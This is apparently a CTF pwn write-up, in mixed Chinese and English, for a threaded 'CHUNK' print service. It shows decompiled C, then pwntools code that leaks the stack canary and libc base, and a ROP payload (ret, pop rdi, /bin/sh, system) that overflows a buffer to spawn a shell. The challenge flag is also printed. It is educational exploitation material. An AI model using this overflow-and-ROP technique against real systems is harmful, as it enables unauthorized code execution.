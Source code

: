 # 1.0 Challenge

1. where is the leaking point?
2. how to find the canary?
3. canary rec, why need + b'\0'
4. leak stack find libc base 
5. how to build ROP 

# 2.0 Analysis

source code 
parsecmd 
```cpp
__int64 __fastcall parsecmd(const char *a1, __int64 a2)
{
  pthread_t *v2; // rax
  char *endptr[3]; // [rsp+18h] [rbp-18h] BYREF

  endptr[2] = __readfsqword(0x28u);
  endptr[1] = 0;
  endptr[0] = 0;
  pa = 0;
  unk_4040D0 = 0;
  if ( !strncmp(a1, "CHUNKS ", 7u) )
  {
    nthread = strtoul(a1 + 7, 0, 10);
    if ( nthread > 0xAu )
      errx(-1, "bad number of threads");
    printf("set nthread to %u\n", nthread);
  }
  else if ( !strncmp(a1, "CHUNK ", 5u) )
  {
    if ( nthread )
    {
      LODWORD(pa) = strtoul(a1 + 6, endptr, 10);
      DWORD1(pa) = strtoul(endptr[0] + 1, endptr, 10);
      *(&pa + 1) = endptr[0] + 1;
      unk_4040D0 = a2 - (endptr[0] + 1 - a1);
      v2 = curthread;
      curthread += 8LL;
      pthread_create(v2, 0, print, &pa);
      --nthread;
    }
    else
    {
      puts("no threads remaining");
    }
  }
  else if ( !strncmp(a1, "CHONK ", 5u) )
  {
    puts(chonk);
  }
  else
  {
    puts("unknown command");
  }
  return 0;
}
```
print function
```cpp
void *__fastcall print(void *a1)
{
  int v3; // [rsp+10h] [rbp-60h]
  unsigned int seconds; // [rsp+14h] [rbp-5Ch]
  _QWORD dest[10]; // [rsp+20h] [rbp-50h] BYREF

  dest[9] = __readfsqword(0x28u);
  memset(dest, 0, 64);
  v3 = *(a1 + 1);
  seconds = *a1;
  memcpy(dest, *(a1 + 1), *(a1 + 2));
  while ( v3-- )
  {
    puts(dest);
    sleep(seconds);
  }
  return 0;
}
```
USAGE 

![[./attachments/Pasted image 20250716220629.png]]
first need to 
CHUNKS `NUM OF THREAD`
CHUNK `TIMESLEEP` `REPEAT` `CHAR`

the customize print so I assume need to do something from here 
# 3.0 Solution
## 3.1 FIND THE LEAKING POINT 
PRINT 这边是最后把 a1 给到 dest
so 这个 dest 是 收到 rbp - 0x50
![[./attachments/Pasted image 20250716221045.png]]
而且没有 \x00? 不知道 有没有关系
会把 dest 压满 然后带出后面的 value 

## 3.2 HOW TO FIND THE CANARY
因为dest 是 0x50 所以 canary 通常会在 return 前一个 so 0x50 - 1 = 0x49
```
void *__fastcall print(void *a1)
{
  int v3;                   // [rsp+10h]  → rbp - 0x60
  unsigned int seconds;     // [rsp+14h]  → rbp - 0x5C
  _QWORD dest[10];          // [rsp+20h]  → rbp - 0x50
                            //            → rbp - 0x50 to rbp - 0x08
  dest[9] = __readfsqword(0x28u); // writes canary at rbp - 0x08
  ...
}
```
这边我直接用别人的leaking 一定要补齐 8 个 
manual
一开始 是 rc(7) 要加 b'\0'  + rc(7) 才能转 u64
```python
# leak
# must + b'\0'
canary = u64(b'\0'+rc(7))
print("canary:",hex(canary))
leak_stack = u64(b'\0'*2+ru7f())
print("leak_stack",hex(leak_stack))
libc_base = leak_stack + 0x200090
print("libc base",hex(libc_base))
dbg()
```
后面的 leak stack 是直接拿 罢了 然后对着 vmmap diff
记得要补齐 不确定的话可以len(rl()) 看length 

auto 一点
```python
# must + b'\0'
leak=b'\x00'+rl().strip()
warn(f"Thread leak: {leak}")
canary = u64(leak[:8])
print("canary:",hex(canary))
leak_stack = u64(leak[8:]+b'\x00'*(8-len(leak[8:])))
print("leak_stack",hex(leak_stack))
libc_base = leak_stack + 0x200090
print("libc base",hex(libc_base))
libc.address=libc_base
# dbg()
```

## 3.3 HOW TO BUILD ROP

下面是auto way 去找 也可以ropgadget 
主要都有了
```python
libc.address=libc_base
# dbg()

# ROP
rop = ROP(libc)
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
bin_sh = next(libc.search(b'/bin/sh'))
system = libc.sym['system']
```

attack payload 
就是 offset + canary + 随便 8 个 + ret + pop_rdi + bin_sh + system
可是我看到有人
就是 offset + canary + 随便 8 个 + pop_rdi + bin_sh + ret + system 也可以 
还有
我看到没有ret 也可以 ？？？？就以防万一 alignment 问题
```
# attack payload 
offset = 0x48
payload = b'CHUNK 1 1 ' 
payload += b'a' * offset 
payload += p64(canary)
payload += b'b' * 8
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)
```
# 4.0 FLAG 
L3AK{m30w_m30w_1n_th3_d4rk_y0u_c4n_r0p_l1k3_th4t_c4t}

# 5.0 FINAL SCRIPT 
![[./attachments/exploit3.py]]